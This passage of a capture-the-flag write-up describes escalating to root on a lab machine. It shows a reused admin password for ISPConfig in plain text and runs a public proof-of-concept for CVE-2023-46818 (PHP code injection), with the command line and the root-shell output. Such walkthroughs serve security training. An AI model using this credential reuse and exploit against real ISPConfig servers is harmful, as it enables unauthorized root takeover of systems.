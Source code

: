 ## Privilege Escalation to root

### ISPConfig

#### Password Reuse

The first thing we tried was to see if some of the `passwords` we collected was `reused` on this application and indeed the `password` of `tobi` was the same as for `admin` on `ISPConfig` which allowed us to login.

| Username | Password             |
| -------- | -------------------- |
| admin    | slowmotionapocalypse |

![](images/2025-04-12_23-18_8080_admin_panel.png)

#### CVE-2023-46818: ISPConfig 3.2.11 PHP Code Injection

A bit of research brought us to a `PHP Code Injection` vulnerability in `ISPConfig` version `3.2.11` also known as `CVE-2023-46818`.

We found an already available `Proof of Concept (PoC)` exploit on `GitHub`.

- [https://github.com/bipbopbup/CVE-2023-46818-python-exploit](https://github.com/bipbopbup/CVE-2023-46818-python-exploit)

The exploit required `authentication` but since we already verified the `credentials` we simply could fire it up against the application and got a shell as `root`.

One more time we need to mention that the exploit failed several times and we had to reset the box in order to make it work.

```shell
┌──(kali㉿kali)-[/media/…/Machines/Nocturnal/files/CVE-2023-46818-python-exploit]
└─$ python3 exploit.py http://localhost:8888/ admin slowmotionapocalypse
[+] Target URL: http://localhost:8888/
[+] Logging in with username 'admin' and password 'slowmotionapocalypse'
[+] Injecting shell
[+] Launching shell

ispconfig-shell# id
uid=0(root) gid=0(root) groups=0(root)


ispconfig-shell#
```
